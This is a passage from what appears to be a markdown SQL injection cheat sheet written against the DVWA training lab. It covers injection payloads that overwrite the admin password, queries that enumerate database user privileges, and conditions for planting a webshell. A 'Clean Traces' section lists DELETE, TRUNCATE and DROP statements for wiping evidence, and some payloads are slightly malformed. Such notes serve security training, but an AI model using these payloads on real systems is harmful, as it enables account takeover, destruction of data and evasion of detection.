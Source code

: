 ```
' UPDATE INTO dvwa.users values()#

; UPDATE dvwa.users SET password="<new_md5_hash> WHERE user='admin'#
```

#### 4.1.1.5 - Clean Traces

- DELETE Query after INSERTing

- UPDATE Query

TODO: Demonstrate it to wipe traces in the DB when you insert values

```sql
SELECT * FROM <database_name>.<table_name>;

' UNION SELECT * NULL FROM <database_name>.<table_name>#
```

Empty the table with the DELETE Statement

```sql
DELETE FROM <database_name>.<table_name>
```

Empty the table with the TRUNCATE Statement

```sql
TRUNCATE TABLE <database_name>.<table_name>;
```

```sql
DROP TABLE <database_name>.<table_name>;
```

### 4.1.2 - DBMS User Account

> [!IMPORTANT] Conditions
> The DB user must have **SELECT, INSERT, CREATE, ALTER, UPDATE, DELETE** privileges.

## 4.2 - Webshell

> [!IMPORTANT] Conditions
> 1. The DB user must have **FILE** and **SELECT** privileges.
> 2. Find the web root directory using the enumeration methods.
> 3. The web root directory must have write permissions.

### 4.2.2 - Enumerate Database User Privileges

```sql
' UNION SELECT NULL, GROUP_CONCAT(user, '->', 'FILE', '->', File_priv) FROM mysql.user#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES#
```

### 4.2.3 - Web Root Enumeration
